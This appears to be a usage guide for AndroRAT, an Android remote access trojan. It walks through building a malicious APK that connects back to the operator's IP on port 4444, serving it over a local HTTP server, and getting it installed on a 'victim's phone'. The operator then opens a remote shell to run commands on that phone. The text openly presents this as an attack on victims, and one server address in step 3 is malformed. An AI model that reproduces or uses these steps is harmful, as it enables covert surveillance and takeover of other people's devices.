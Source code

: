 # AndroRAT
-----------------------------------------------------------------------
These following commands are only applicable in python version >=3.9
-----------------------------------------------------------------------
1. Open terminal in the same directory and run the following command.
   "py androRAT.py --build -i 192.168.1.10 -p 4444 -o name_of_app.apk". 
   (Here, replace the ip "192.168.1.10" with your computer's local ip, also replaces
   the "name_of_app.apk" with your desired name of the app).
    
2. Now run the command "py -m http.server 8000".
    (It will start a server on your computer at port 8000).

3. Open browser of victim's phone and go to the address "192.168.110:8000".
    (Again  replace the ip "192.168.1.10" with your computer local ip).

4. Now download the apk file that you had created with your desired name and install. 
    (Keep running the app in the background.)

5. Now open another terminal in the same directory and run the following command.
    "py androRAT.py --shell -i 192.168.1.10 -p 4444".
     (Don't forget to replace the ip)

6. Done! now you will be connected with the victim's phone.
   Simply run command "help" to explore the operations that you can perform in victim's phone.
-----------------------------------------------------------------------
*Note*
-----------------------------------------------------------------------
1.  Do remember, in above commands use your own local ip, you just have to replace it with mine.
2. You can use any port that you want, but better to use 4444.
3. Also, check the requirements.txt file to install some python modules.
   (To install type: pip install _name of the module_)
-----------------------------------------------------------------------
If you have any problem then contact me:
Email ID: codingdrift18@gmail.com
